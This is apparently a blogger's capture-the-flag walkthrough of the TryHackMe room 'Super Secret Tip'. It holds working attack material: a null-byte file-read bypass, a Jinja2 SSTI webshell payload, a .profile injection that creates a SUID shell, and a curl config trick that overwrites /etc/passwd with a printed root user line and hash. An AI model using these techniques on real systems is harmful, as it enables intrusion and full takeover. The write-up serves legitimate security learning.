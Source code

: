 # Super Secert TIp

https://tryhackme.com/room/supersecrettip

The title is not a typo, but a not-so-subtle reference to one of the techniques required for this room, SSTI :) An interesting room, a bit frustrating in parts. I missed something that would have had me solve it much quicker on the first foothold, and I needed the writeup to try and figure out the esoteric hints the author created for the final flag, but I had fun. The techniques I used to get through the room were a bit different than that used in the official writeup, so here they are in this walkthrough.

1. A scan will reveal port 7777, which is a website running python. The landing is just a brochureware site, but using FFUF or whatever dir busting tool will find two subdirectories, /cloud and /debug
2. /debug seems like an SSTI entry point but is guarded by a password, so we focus on /cloud. This allows the download of several useless files, one of which is templates.py. Brute forcing or guessing other file names, will reveal `source.py`.
3. This is the apparent source code for both /cloud and /debug, and it reveals several things: the only source file it will reveal is source.py, but you can download any .txt file one of which is the password for /debug, XORd against an unknown key:

    ```python
    ...
    password = str(open('supersecrettip.txt').readline().strip())
    ...
    @app.route("/cloud", methods=["GET", "POST"]) 
    def download():
        if request.method == "GET":
            return render_template('cloud.html')
        else:
            download = request.form['download']
            if download == 'source.py':
                return send_file('./source.py', as_attachment=True)
            if download[-4:] == '.txt':
                print('download: ' + download)
                return send_from_directory(app.root_path, download, as_attachment=True)
            else:
                return send_from_directory(app.root_path + "/cloud", download, as_attachment=True)
                # return render_template('cloud.html', msg="Network error occurred")
    ...
    # I am not very eXperienced with encryptiOns, so heRe you go!
    encrypted_pass = str(debugpassword.get_encrypted(user_password))
    if encrypted_pass != password:
        return render_template("debug.html", error="Wrong password.")
    ...
    ```

4. To proceed I need the XOR key, and several attempts to brute force it failed. This took me days to figure out, but the solution is simple: the download file path is vulnerable to null byte termination. That is, a path like `debugpassword.py%00.txt` will pass the .txt check and read the relevant source file, giving me the decryption key.
5. Because the 'supersecrettip.txt' file holds a python byte array, to be sure that I had it right I wrote some python to read this and print out the base64: `import base64;print(base64.standard_b64encode([file-contents]))`. I then used cyberchef with [from base64] -> [xor] to get the password for the /debug interface.

6. Reviewing the code carefully, there are two functions. The first, handling the /debug endpoint, will check the password and if correct set the 'debug' payload as a session key, returning it in the cookie. The second is the /debugresult endpoint, which will check if X-Forwarded-For is set to 127.0.0.1, and then render a Jinja2 template with the debug session value injected in. This is straight forward SSTI:

  ```python
 @app.route("/debugresult", methods=["GET"]) 
  def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
    
    if not session:
        return render_template("debugresult.html")
    
    debug = session.get('debug')
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debugresult.html", error=error)
    user_password = session.get('password')
    
    if not debug and not user_password:
        return render_template("debugresult.html")
        
    # return render_template("debugresult.html", debug=debug, success=True)
    
    # TESTING -- DON'T FORGET TO REMOVE FOR SECURITY REASONS
    template = open('./templates/debugresult.html').read()
    return render_template_string(template.replace('DEBUG_HERE', debug), success=True, error="")
  ```

One key restriction is the illegal chars check, which blocks `'` among other things.

7. To implement really basic RCE, creating an effective webshell, the following payload was passed to /debug: `/debug?debug={{self.__init__.__globals__.__builtins__.__import__(request.args.a).popen(request.args.b).read()}}&password=[REDACTED]`
   The payload is `{{self.__init__.__globals__.__builtins__.__import__(request.args.a).popen(request.args.b).read()}}`, with the key parts being `request.args.a` and `request.args.b`. On /debugresult, this can now be used with ?a=os&b=id, turning this payload into `{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}`. This makes debug result a webshell, as just by changing the b parameter any given command can be run.

8. To get a reverse shell there were a few options. The system doesn't have netcat on it, but by checking `uname -a` I found that it should be compatible with my attack box (both ubuntu), so I just downloaded the copy of nc.openbsd from the attack box to /tmp, made it executable, then used a standard mkfifo reverse shell to get a foothold as the user `ayham` and the first flag.

9. Enumerating the machine, a second user named F30s had two files in their home directory, both readable: site_check and health_check. Additionally, their .profile was writable:

  ```bash
  -rw-r--rw- 1 F30s F30s  807 Mar 27  2022 .profile
  -rw-r--r-- 1 root root   17 May 19 08:18 health_check
  -rw-r----- 1 F30s F30s   38 May 22 13:19 site_check
  ```

  Checking the cronjobs with `cat /etc/crontab`:

  ```bash
  *  *    * * *   root    curl -K /home/F30s/site_check
  *  *    * * *   F30s    bash -lc 'cat /home/F30s/health_check'
  ```

  So the path was first to hop to F30s via health_check, and then to root via site_check.

10. `bash -lc` meant that the users local profile would be loaded. The way I exploited this was simple as the .profile file is a big shell script: `echo 'cp /bin/sh ~/sh && chmod u+s ~/sh' >> .profile`. This meant that when the command was run, a SUID bit sh binary for the user F30s would be created in their home directory. Once this occured, I gained their effective permissions with `./sh -p`

11. `curl -K` loads configuration options from whatever file is specified, in this case site_check. It contained `url = "http://127.0.0.1/health_check"`. Adding outfile to this would allow me to fetch any file as root and then write it over any file on the system. To exploit this I hosted a copy of the passwd file, and added `user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash`, a user named user3 with the password `pass123`. By setting url to my hosted file, and `output = "/etc/passwd"`, I was able to overwrite passwd and then switch to root with `su user123`.

12. The final flag was a bit about guessing. There are two files under /root: flag2.txt and secret.txt. Both contain byte arrays like earlier, garbled text indicating a XOR was needed. There was also a secret-tip.txt file in /, that contained some cryptic hints (e.g. 'So, I was missing 2 .. hmm .. what were they called?' and 'Don't forget it's always about root!'. The key for this was that secret.txt should be xored with 'root', with the result being a large number with two X's at the end. Via brute forcing you can resolve those two X's to the two missing numbers and get the full XOR key for the final flag.

So yeah, overall good fun. I like exploiting things like a .profile via these rarely used variations of common commands. Only thing I didn't like was the final guessing game, but maybe I just suck :)
